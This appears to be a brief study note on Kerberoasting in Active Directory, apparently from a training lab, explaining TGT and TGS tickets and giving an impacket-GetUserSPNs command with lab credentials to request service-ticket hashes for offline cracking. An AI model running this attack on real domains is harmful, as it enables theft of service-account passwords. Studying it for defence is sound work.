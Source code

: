 - Takes advantage of **`Service Accounts`**
- TGT -> Ticket Granting Ticket (Every authenticated user on domain can request this from DC or KDC (Key Distribution Center))
- TGS -> Ticket Granting Service (Service ticket that provides server interaction access)
![[Pasted image 20250329164841.png]]
# Attack
---
- `impacket-GetUserSPNs MARVEL.local/fcastle:Password1 -dc-ip 10.0.1.4 -request`
	- Requesting TGS from DC
- Crack the hash got from TGS
